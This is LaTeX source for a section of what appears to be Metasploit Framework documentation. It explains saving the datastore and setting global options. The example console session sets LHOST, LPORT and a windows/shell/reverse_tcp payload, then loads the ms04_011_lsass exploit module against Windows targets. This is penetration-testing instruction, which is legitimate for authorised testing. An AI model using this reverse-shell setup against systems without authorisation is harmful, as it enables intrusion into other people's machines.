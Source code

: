 \documentclass{report}
\begin{document}
    \section{Saved DataStore}
    \label{ENV-SAVE}

\par
The \texttt{save} command can be used to synchronize the Global and all module
datastores to disk. The saved environment is written to
\texttt{HOME/.msf3/config} and will be loaded when any of the user interfaces
are executed.  

    \section{DataStore Efficiency}
    \label{ENV-EFF}

\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global datastore once and automatically used in any exploit you load thereafter.  

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} global datastore can be used to save time when exploiting a
set of Windows-based targets. If this datastore was set and a Linux exploit
was being used, the module datastore (via \texttt{set} and \texttt{unset})
could be used to override these defaults.  

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\par
The datastore can be used to configure many aspects of the Framework, ranging
from user interface settings to specific timeout options in the network socket
API. This section describes the most commonly used environment variables.  
\end{document}
